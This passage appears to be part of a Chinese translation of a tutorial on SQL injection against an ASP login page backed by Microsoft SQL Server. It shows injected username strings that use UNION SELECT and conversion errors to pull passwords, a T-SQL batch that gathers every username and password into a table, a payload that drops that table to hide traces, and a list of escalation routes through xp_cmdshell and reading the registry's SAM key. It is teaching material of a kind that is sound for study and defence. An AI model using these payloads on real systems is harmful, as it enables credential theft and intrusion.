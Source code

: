 一旦攻击者确定了用户名，他就可以开始收集密码：

Username：&amp;apos; union select password,1,1,1 from users where username=&amp;apos;admin&amp;apos;-

Microsoft OLE DB Provider for ODBC Drivers error &amp;apos;80040e07&amp;apos;

[Microsoft][ODBC SQL Server Driver][SQL Server]Syntax error converting the varchar value &amp;apos;r00tr0x!&amp;apos; to a column of data type int.

/process_login.asp, line 35

一个更高级的技术是将所有用户名和密码连接长一个单独的字符串，然后尝试把它转化成整型数字。这个例子指出：Transavt-SQL语法能够在不改变相同的行的意思的情况下把它们连接起来。下面的脚本将把值连接起来：

begin declare @ret varchar(8000)

set @ret=&amp;apos;:&amp;apos;

select @ret=@ret+&amp;apos; &amp;apos;+username+&amp;apos;/&amp;apos;+password from users where

username&gt;@ret

select @ret as ret into foo

end

攻击者使用这个当作用户名登陆（都在一行）

Username: &amp;apos;; begin declare @ret varchar(8000) set @ret=&amp;apos;:&amp;apos; select @ret=@ret+&amp;apos; &amp;apos;+username+&amp;apos;/&amp;apos;+password from users where username&gt;@ret select @ret as ret into foo end-

这就创建了一个foo表，里面只有一个单独的列&amp;apos;ret&amp;apos;，里面存放着我们得到的用户名和密码的字符串。正常情况下，一个低权限的用户能够在同一个数据库中创建表，或者创建临时数据库。

然后攻击者就可以取得我们要得到的字符串：

Username：&amp;apos; union select ret,1,1,1 from foo-

Microsoft OLE DB Provider for ODBC Drivers error &amp;apos;80040e07&amp;apos;

[Microsoft][ODBC SQL Server Driver][SQL Server]Syntax error converting the varchar value &amp;apos;: admin/r00tr0x! guest/guest chris/password fred/sesame&amp;apos; to a column of data type int.

/process_login.asp, line 35

然后丢弃（删除）表来清楚脚印：

Username：&amp;apos;; drop table foo-

这个例子仅仅是这种技术的一个表面的作用。没必要说，如果攻击者能够从数据库中获得足够的错误西，他们的工作就变的无限简单。

获得更高的权限

一旦攻击者控制了数据库，他们就想利用那个权限去获得网络上更高的控制权。这可以通过许多途径来达到：

1\. 在数据库服务器上，以SQLSERVER权限利用xp_cmdshell扩展存储过程执行命令。

2\. 利用xp_regread扩展存储过程去读注册表的键值，当然包括SAM键（前提是SQLSERVER是以系统权限运行的）

3\. 利用其他存储过程去改变服务器

4\. 在连接的服务器上执行查询
